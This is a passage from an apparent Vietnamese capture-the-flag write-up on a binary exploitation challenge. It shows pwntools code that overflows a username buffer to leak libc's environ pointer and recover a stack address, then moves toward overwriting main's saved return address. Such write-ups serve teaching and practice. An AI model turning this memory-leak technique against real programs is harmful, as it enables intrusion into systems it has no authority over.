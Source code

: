 ### Stage 3: Leak stack address

Ở bước này, ta vẫn làm như 2 bước trên với địa chỉ cần leak là environ() của libc:

![environ.png](images/environ.png)

Địa chỉ leak mà ta nhận được sẽ là `0x00007ffce8a4c988`. Vậy đoạn code để leak địa chỉ stack ra là:

```python
p.sendlineafter(b'>> ', b'1')
p.sendlineafter(b'username: ', b'A'*0x50 + flat(0x1111111111111111, libc.sym['environ']))
show(2)
p.recvuntil(b'password')
stack = p.recvline()[:-1].split(b' : ')[1]
stack = stack.ljust(8, b'\x00')
stack = u64(stack)
log.info("Stack leak: " + hex(stack))
```

Chạy lại script ta được địa chỉ stack leak ra:

![stack-leak.png](images/stack-leak.png)

Mục tiêu của ta là saved rip của main nên ta sẽ debug để tính offset từ địa chỉ stack leak ra với saved rip:

![get-saved-rip-offset.png](images/get-saved-rip-offset.png)
